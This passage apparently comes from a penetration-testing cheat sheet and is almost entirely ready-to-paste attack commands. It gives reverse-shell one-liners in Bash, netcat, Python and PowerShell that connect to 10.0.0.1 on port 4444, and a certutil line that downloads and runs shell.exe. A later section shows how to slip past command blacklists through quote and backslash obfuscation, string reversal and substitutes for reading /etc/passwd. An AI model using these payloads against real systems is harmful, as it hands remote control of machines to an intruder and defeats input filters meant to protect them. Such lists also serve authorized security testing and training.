 #### Basic Reverse Shells

```bash
# Bash reverse shell
bash -i >& /dev/tcp/10.0.0.1/4444 0>&1

# Netcat reverse shell
nc -e /bin/sh 10.0.0.1 4444
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4444 >/tmp/f

# Python reverse shell
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

#### Windows Reverse Shells

```powershell
# PowerShell reverse shell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.0.0.1",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

# Certutil download and execute
certutil -urlcache -split -f http://10.0.0.1/shell.exe C:\Windows\Temp\shell.exe && C:\Windows\Temp\shell.exe
```

## Bypass Techniques

### Blacklist Bypass

Used when specific commands or characters are blacklisted:

```bash
# Command obfuscation
w'h'o'am'i
w"h"o"am"i
\w\h\o\a\m\i

# Alternative commands
# Instead of: cat /etc/passwd
head /etc/passwd
tail /etc/passwd
less /etc/passwd
more /etc/passwd

# Character substitution
$(rev<<<'imaohw')  # whoami reversed
$(printf "whoami")
```
